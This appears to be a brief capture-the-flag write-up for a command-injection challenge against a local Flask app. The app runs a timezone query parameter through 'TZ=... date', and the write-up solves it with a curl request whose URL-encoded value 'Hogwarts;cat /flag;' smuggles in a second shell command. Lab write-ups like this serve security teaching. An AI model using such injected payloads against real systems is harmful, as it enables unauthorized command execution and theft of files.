 # CMDi 4

```shell
cat /challenge/server
```

The Flask app takes a timezone as query param (`/initiative?time-region`) and executes `TZ={time-region} date`

Executing: \
TZ=**Hogwarts;cat /flag;** date

Start the server and use curl:

```shell
curl http://challenge.localhost:80/initiative?time-region=Hogwarts%3Bcat%20%2Fflag%3B
```
